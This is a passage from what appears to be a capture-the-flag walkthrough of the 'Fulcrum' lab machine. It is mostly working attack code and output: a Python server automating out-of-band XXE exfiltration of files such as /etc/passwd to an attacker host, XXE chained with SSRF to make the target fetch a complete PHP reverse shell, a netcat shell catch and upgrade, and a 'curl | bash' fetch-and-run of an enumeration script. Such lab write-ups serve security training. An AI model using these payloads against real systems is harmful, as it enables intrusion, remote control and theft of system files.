bWQgUmVzb2x2ZXIsLCw6L3J1bi9zeXN0ZW1kL3Jlc29sdmU6L2Jpbi9mYWxzZQpzeXN0ZW1kLWJ1cy1wcm94eTp4OjEwMzoxMDU6c3lzdGVtZCBCdXMgUHJveHksLCw6L3J1bi9zeXN0ZW1kOi9iaW4vZmFsc2UKc3lzbG9nOng6MTA0OjEwODo6L2hvbWUvc3lzbG9nOi9iaW4vZmFsc2UKX2FwdDp4OjEwNTo2NTUzNDo6L25vbmV4aXN0ZW50Oi9iaW4vZmFsc2UKbHhkOng6MTA2OjY1NTM0OjovdmFyL2xpYi9seGQvOi9iaW4vZmFsc2UKZG5zbWFzcTp4OjEwNzo2NTUzNDpkbnNtYXNxLCwsOi92YXIvbGliL21pc2M6L2Jpbi9mYWxzZQptZXNzYWdlYnVzOng6MTA4OjExMTo6L3Zhci9ydW4vZGJ1czovYmluL2ZhbHNlCmJsdWVwcmludDp4OjEwMDA6MTAwMDpibHVlcHJpbnQsLCw6L2hvbWUvYmx1ZXByaW50Oi9iaW4vYmFzaApjb2xvcmQ6eDoxMDk6MTE3OmNvbG9yZCBjb2xvdXIgbWFuYWdlbWVudCBkYWVtb24sLCw6L3Zhci9saWIvY29sb3JkOi9iaW4vZmFsc2UKbGlidmlydC1xZW11Ong6NjQwNTU6MTE1OkxpYnZpcnQgUWVtdSwsLDovdmFyL2xpYi9saWJ2aXJ0Oi9iaW4vZmFsc2UKbGlidmlydC1kbnNtYXNxOng6MTEwOjExODpMaWJ2aXJ0IERuc21hc3EsLCw6L3Zhci9saWIvbGlidmlydC9kbnNtYXNxOi9iaW4vZmFsc2UKc3NoZDp4OjExMTo2NTUzNDo6L3Zhci9ydW4vc3NoZDovdXNyL3NiaW4vbm9sb2dpbgo=
```

```sh
root@kali:~/fulcrum# base64 -d passwd.b64 > passwd
```

`passwd`

```sh
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/bin/false
messagebus:x:108:111::/var/run/dbus:/bin/false
blueprint:x:1000:1000:blueprint,,,:/home/blueprint:/bin/bash
colord:x:109:117:colord colour management daemon,,,:/var/lib/colord:/bin/false
libvirt-qemu:x:64055:115:Libvirt Qemu,,,:/var/lib/libvirt:/bin/false
libvirt-dnsmasq:x:110:118:Libvirt Dnsmasq,,,:/var/lib/libvirt/dnsmasq:/bin/false
sshd:x:111:65534::/var/run/sshd:/usr/sbin/nologin
```

- Automate `XXE` process

`xxe.py`

```python
#!/usr/bin/env python

from http.server import BaseHTTPRequestHandler, HTTPServer
from base64 import b64decode

# HTTP Class
class HTTP_RequestHandler(BaseHTTPRequestHandler):
	def do_GET(self):
		stage, data = (self.path).split('?')
		if stage == '/stage1.xml':
			message = """<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=""" + data + """">
			<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://10.10.14.16:9001/stage2.xml?%data;'>">"""

		if stage == '/stage2.xml':
			message = ""
			print(b64decode(data).decode("utf-8"))

		self.send_response(200)
		self.end_headers()
		self.wfile.write(bytes(message, 'utf-8'))
		return

	def log_message(self, target, *args):
		return

def run():
	print('Starting Server')
	server_address = ('0.0.0.0', 9001)
	httpd = HTTPServer(server_address, HTTP_RequestHandler)
	httpd.serve_forever()

run()
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "http://10.10.14.16:9001/stage1.xml?/etc/passwd" >%xxe;%param1;]>
<foo>&exfil;</foo>
```

```
GET / HTTP/1.1
Host: 10.10.10.62:56423
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: pmaCookieVer=5; pma_lang=en; pma_collation_connection=utf8mb4_unicode_ci; phpMyAdmin=eqssgnqtotvee3e4u2jojkevigj9ed66; PHPSESSID=ma8oa5sim3iptsrbba9hd426j43ku66s
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 189

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "http://10.10.14.16:9001/stage1.xml?/etc/passwd" >%xxe;%param1;]>
<foo>&exfil;</foo>
```



```sh
root@kali:~/fulcrum# python3 xxe.py
Starting Server
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/bin/false
messagebus:x:108:111::/var/run/dbus:/bin/false
blueprint:x:1000:1000:blueprint,,,:/home/blueprint:/bin/bash
colord:x:109:117:colord colour management daemon,,,:/var/lib/colord:/bin/false
libvirt-qemu:x:64055:115:Libvirt Qemu,,,:/var/lib/libvirt:/bin/false
libvirt-dnsmasq:x:110:118:Libvirt Dnsmasq,,,:/var/lib/libvirt/dnsmasq:/bin/false
sshd:x:111:65534::/var/run/sshd:/usr/sbin/nologin
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "http://10.10.14.16:9001/stage1.xml?/etc/lsb-release" >%xxe;%param1;]>
<foo>&exfil;</foo>
```

```
GET / HTTP/1.1
Host: 10.10.10.62:56423
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: pmaCookieVer=5; pma_lang=en; pma_collation_connection=utf8mb4_unicode_ci; phpMyAdmin=eqssgnqtotvee3e4u2jojkevigj9ed66; PHPSESSID=ma8oa5sim3iptsrbba9hd426j43ku66s
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 189

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "http://10.10.14.16:9001/stage1.xml?/etc/lsb-release" >%xxe;%param1;]>
<foo>&exfil;</foo>
```


```sh
root@kali:~/fulcrum# python3 xxe.py
Starting Server
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=16.04
DISTRIB_CODENAME=xenial
DISTRIB_DESCRIPTION="Ubuntu 16.04.3 LTS"
```


```
http://10.10.10.62:4/index.php?page=http://10.10.10.62:9002/sample
```


- `XXE` and `SSRF`

```
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "http://127.0.0.1:4/index.php?page=http://10.10.14.16:9002/sample" >]>
<foo>&xxe;</foo>
```

```
GET / HTTP/1.1
Host: 10.10.10.62:56423
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: pmaCookieVer=5; pma_lang=en; pma_collation_connection=utf8mb4_unicode_ci; phpMyAdmin=eqssgnqtotvee3e4u2jojkevigj9ed66; PHPSESSID=ma8oa5sim3iptsrbba9hd426j43ku66s
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 189

<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "http://127.0.0.1:4/index.php?page=http://10.10.14.16:9002/sample" >]>
<foo>&xxe;</foo>
```



```sh
root@kali:~/fulcrum# nc -nlvp 9002
listening on [any] 9002 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.10.62] 42672
GET /sample.php HTTP/1.0
Host: 10.10.14.16:9002
Connection: close
```

```sh
root@kali:~/fulcrum# cp /usr/share/laudanum/php/php-reverse-shell.php .
root@kali:~/fulcrum# vim php-reverse-shell.php
```

```sh
root@kali:~/fulcrum# head php-reverse-shell.php
<?php

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.16';  // CHANGE THIS
$port = 9003;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
root@kali:~/fulcrum#
```

`xxe.py`

```python
#!/usr/bin/env python

from http.server import BaseHTTPRequestHandler, HTTPServer
from base64 import b64decode

# HTTP Class
class HTTP_RequestHandler(BaseHTTPRequestHandler):
	def do_GET(self):
		try:
			stage, data = (self.path).split('?')
			if stage == '/stage1.xml':
				message = """<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=""" + data + """">
				<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://10.10.14.16:9001/stage2.xml?%data;'>">"""

			if stage == '/stage2.xml':
				message = ""
				print(b64decode(data).decode("utf-8"))

		except:
			# PHP CODE
			message = """
<?php

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.16';  // CHANGE THIS
$port = 9003;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();

	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}

	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
					  """

		self.send_response(200)
		self.end_headers()
		self.wfile.write(bytes(message, 'utf-8'))
		return

	def log_message(self, target, *args):
		return

def run():
	print('Starting Server')
	server_address = ('0.0.0.0', 9001)
	httpd = HTTPServer(server_address, HTTP_RequestHandler)
	httpd.serve_forever()

run()
```

###### Shell using XXE

```sh
root@kali:~/fulcrum# python3 xxe.py
Starting Server
```

```
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "http://127.0.0.1:4/index.php?page=http://10.10.14.16:9001/SendShell" >]>
<foo>&xxe;</foo>
```

```
GET / HTTP/1.1
Host: 10.10.10.62:56423
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: pmaCookieVer=5; pma_lang=en; pma_collation_connection=utf8mb4_unicode_ci; phpMyAdmin=eqssgnqtotvee3e4u2jojkevigj9ed66; PHPSESSID=ma8oa5sim3iptsrbba9hd426j43ku66s
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 192

<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "http://127.0.0.1:4/index.php?page=http://10.10.14.16:9001/SendShell" >]>
<foo>&xxe;</foo>
```



[`Upgrading simple shells to fully interactive TTYs`](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)

```sh
root@kali:~# nc -nlvp 9003
listening on [any] 9003 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.10.62] 51810
Linux Fulcrum 4.4.0-96-generic #119-Ubuntu SMP Tue Sep 12 14:59:54 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 21:54:50 up 3 days, 18:16,  0 users,  load average: 0.28, 0.17, 0.11
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@Fulcrum:/$ ^Z
[1]+  Stopped                 nc -nlvp 9003
root@kali:~# echo $TERM
xterm-256color
root@kali:~# stty -a
speed 38400 baud; rows 51; columns 204; line = 0;
intr = ^C; quit = ^\; erase = ^?; kill = ^U; eof = ^D; eol = M-^?; eol2 = M-^?; swtch = <undef>; start = ^Q; stop = ^S; susp = ^Z; rprnt = ^R; werase = ^W; lnext = ^V; discard = ^O; min = 1; time = 0;
-parenb -parodd -cmspar cs8 -hupcl -cstopb cread -clocal -crtscts
-ignbrk -brkint -ignpar -parmrk -inpck -istrip -inlcr -igncr icrnl ixon -ixoff -iuclc ixany imaxbel iutf8
opost -olcuc -ocrnl onlcr -onocr -onlret -ofill -ofdel nl0 cr0 tab0 bs0 vt0 ff0
isig icanon iexten echo echoe echok -echonl -noflsh -xcase -tostop -echoprt echoctl echoke -flusho -extproc
root@kali:~# stty raw -echo
root@kali:~# nc -nlvp 9003
                          reset
reset: unknown terminal type unknown
Terminal type? xterm-256color

www-data@Fulcrum:/$ export SHELL=bash
www-data@Fulcrum:/$ stty rows 51 columns 204
www-data@Fulcrum:/$ whoami
www-data
www-data@Fulcrum:/$ uname -a
Linux Fulcrum 4.4.0-96-generic #119-Ubuntu SMP Tue Sep 12 14:59:54 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
www-data@Fulcrum:/$
```

```sh
root@kali:~/fulcrum# wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
--2018-06-14 17:03:19--  https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.52.133
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.52.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 43488 (42K) [text/plain]
Saving to: ‘LinEnum.sh’

LinEnum.sh                                         100%[================================================================================================================>]  42.47K  --.-KB/s    in 0.08s

2018-06-14 17:03:20 (521 KB/s) - ‘LinEnum.sh’ saved [43488/43488]

root@kali:~/fulcrum#
```

```sh
root@kali:~/fulcrum# python -m SimpleHTTPServer 8090
Serving HTTP on 0.0.0.0 port 8090 ...
10.10.10.62 - - [14/Jun/2018 17:04:07] "GET /LinEnum.sh HTTP/1.1" 200 -
```

```sh
www-data@Fulcrum:/$ curl http://10.10.14.16:8090/LinEnum.sh | bash
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 43488  100 43488    0     0  48060      0 --:--:-- --:--:-- --:--:-- 48053

#########################################################
# Local Linux Enumeration & Privilege Escalation Script #
#########################################################
# www.rebootuser.com
# version 0.9

[-] Debug Info
[+] Thorough tests = Disabled (SUID/GUID checks will not be perfomed!)


Scan started at:
Thu Jun 14 22:03:37 BST 2018


### SYSTEM ##############################################
[-] Kernel information:
Linux Fulcrum 4.4.0-96-generic #119-Ubuntu SMP Tue Sep 12 14:59:54 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux


[-] Kernel information (continued):
Linux version 4.4.0-96-generic (buildd@lgw01-10) (gcc version 5.4.0 20160609 (Ubuntu 5.4.0-6ubuntu1~16.04.4) ) #119-Ubuntu SMP Tue Sep 12 14:59:54 UTC 2017


[-] Specific release information:
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=16.04
DISTRIB_CODENAME=xenial
DISTRIB_DESCRIPTION="Ubuntu 16.04.3 LTS"
NAME="Ubuntu"
VERSION="16.04.3 LTS (Xenial Xerus)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 16.04.3 LTS"
VERSION_ID="16.04"
HOME_URL="http://www.ubuntu.com/"
SUPPORT_URL="http://help.ubuntu.com/"
BUG_REPORT_URL="http://bugs.launchpad.net/ubuntu/"
VERSION_CODENAME=xenial
UBUNTU_CODENAME=xenial


[-] Hostname:
Fulcrum


### USER/GROUP ##########################################
[-] Current user/group info:
uid=33(www-data) gid=33(www-data) groups=33(www-data)


[-] Users that have previously logged onto the system:
Username         Port     From             Latest
blueprint        pts/4    10.10.14.2       Thu Nov 30 15:03:53 +0000 2017


[-] Who else is logged on:
 22:03:37 up 3 days, 18:25,  0 users,  load average: 0.11, 0.13, 0.09
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT


[-] Group memberships:
uid=0(root) gid=0(root) groups=0(root)
uid=1(daemon) gid=1(daemon) groups=1(daemon)
uid=2(bin) gid=2(bin) groups=2(bin)
uid=3(sys) gid=3(sys) groups=3(sys)
uid=4(sync) gid=65534(nogroup) groups=65534(nogroup)
uid=5(games) gid=60(games) groups=60(games)
uid=6(man) gid=12(man) groups=12(man)
uid=7(lp) gid=7(lp) groups=7(lp)
uid=8(mail) gid=8(mail) groups=8(mail)
uid=9(news) gid=9(news) groups=9(news)
uid=10(uucp) gid=10(uucp) groups=10(uucp)
uid=13(proxy) gid=13(proxy) groups=13(proxy)
uid=33(www-data) gid=33(www-data) groups=33(www-data)
uid=34(backup) gid=34(backup) groups=34(backup)
uid=38(list) gid=38(list) groups=38(list)
uid=39(irc) gid=39(irc) groups=39(irc)
uid=41(gnats) gid=41(gnats) groups=41(gnats)
uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)
uid=100(systemd-timesync) gid=102(systemd-timesync) groups=102(systemd-timesync)
uid=101(systemd-network) gid=103(systemd-network) groups=103(systemd-network)
uid=102(systemd-resolve) gid=104(systemd-resolve) groups=104(systemd-resolve)
uid=103(systemd-bus-proxy) gid=105(systemd-bus-proxy) groups=105(systemd-bus-proxy)
uid=104(syslog) gid=108(syslog) groups=108(syslog),4(adm)
uid=105(_apt) gid=65534(nogroup) groups=65534(nogroup)
uid=106(lxd) gid=65534(nogroup) groups=65534(nogroup)
uid=107(dnsmasq) gid=65534(nogroup) groups=65534(nogroup)
uid=108(messagebus) gid=111(messagebus) groups=111(messagebus)
uid=1000(blueprint) gid=1000(blueprint) groups=1000(blueprint),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),113(lpadmin),114(sambashare),118(libvirtd)
uid=109(colord) gid=117(colord) groups=117(colord)
uid=64055(libvirt-qemu) gid=115(kvm) groups=115(kvm)
uid=110(libvirt-dnsmasq) gid=118(libvirtd) groups=118(libvirtd)
uid=111(sshd) gid=65534(nogroup) groups=65534(nogroup)


[-] It looks like we have some admin users:
uid=104(syslog) gid=108(syslog) groups=108(syslog),4(adm)
uid=1000(blueprint) gid=1000(blueprint) groups=1000(blueprint),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),113(lpadmin),114(sambashare),118(libvirtd)


[-] Contents of /etc/passwd:
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
